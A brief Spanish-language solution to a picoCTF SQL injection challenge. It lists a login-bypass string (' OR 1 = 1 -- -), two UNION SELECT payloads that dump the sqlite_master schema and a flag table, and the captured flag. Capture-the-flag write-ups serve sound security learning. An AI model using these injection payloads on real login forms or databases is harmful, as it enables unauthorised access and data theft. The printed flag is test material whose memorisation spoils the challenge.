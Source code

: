 # Solucion

En el link poner 'OR 1 = 1 -- - como usuario y contrasenia para que despliegue el menu 
Usar comandos sqlite para dar con la bandera
Algies' union select sql,1,1 from sqlite_master;-- 
Algiers' union select flag,id,1 from more_table;--

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}